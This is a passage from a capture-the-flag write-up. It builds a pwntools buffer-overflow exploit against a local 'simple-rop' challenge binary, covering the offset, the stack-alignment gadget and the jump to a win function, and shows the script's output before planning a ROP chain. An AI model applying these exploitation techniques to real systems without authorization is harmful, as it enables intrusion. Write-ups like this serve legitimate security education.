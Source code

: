 So we have an offset of 88. Similar to last time, we need to make sure it's stack aligned so we'll do the same exact thing to align it. Here's our exploit script so far:

```py
$ cat solve.py 
from pwn import *

p = process('./chall')
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```

Running it we get:

```bash
$ python solve.py 
[+] Starting local process './chall': pid 841665
[*] '/pwn-simple-rop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Receiving all data: Done (295B)
[*] Process './chall' stopped with exit code -7 (SIGBUS) (pid 841665)

nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@!
let's test your binary exploitation skills. only the best hackers can join our team...
i am not impressed. this meeting is over.
sorry no can do buddy, wrong password, turn back around
```

Ok sweet, so we got into the win function, but we still need to give it the password. How do we do that? Well, the beauty of this challenge is that we need to create a ROP chain, essentially picking assembly instructions within the binary to create a custom flow - in our case, we want to load the password for the win function into memory. Before we do that, let's figure out what's happening with that password check.

Within Ghidra we can see the following stripped function call:

![Stripped function call within Ghidra](_assets/strcmp-ghidra.png)
